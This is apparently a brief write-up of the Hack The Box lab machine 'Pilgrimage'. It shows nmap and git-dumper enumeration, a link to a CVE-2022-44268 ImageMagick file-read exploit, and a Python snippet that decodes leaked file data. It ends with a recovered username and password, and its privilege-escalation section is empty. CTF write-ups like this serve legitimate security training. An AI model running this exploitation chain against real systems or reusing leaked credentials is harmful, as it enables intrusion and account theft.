

# Pilgrimage - Writeup

**Date**: 03/09/2023

**Difficulty**: EASY

**CTF**: [https://app.hackthebox.com/machines/Pilgrimage](https://app.hackthebox.com/machines/Pilgrimage)


---


# Enumeration


`nmap -p- -sS --min-rate 5000 10.10.11.219 -n -Pn -vvv -oG allPorts`


`nmap -p22,80 -sCV 10.10.11.219 -oN targeted`


`git-dumper http://pilgrimage.htb/ git`


`whatweb http://pilgrimage.htb`


https://github.com/voidz0r/CVE-2022-44268




```python

import os


os.system("identify -verbose output.png | tail -n +98 | head -n -12 | tr -d '\n' > output.txt")

f=open("output.txt")

hex_string = f.read()

f.close()


print(bytes.fromhex(hex_string).decode("utf-8"))

```


`-emilyabigchonkyboi123`

`emily:abigchonkyboi123`


# Privesc


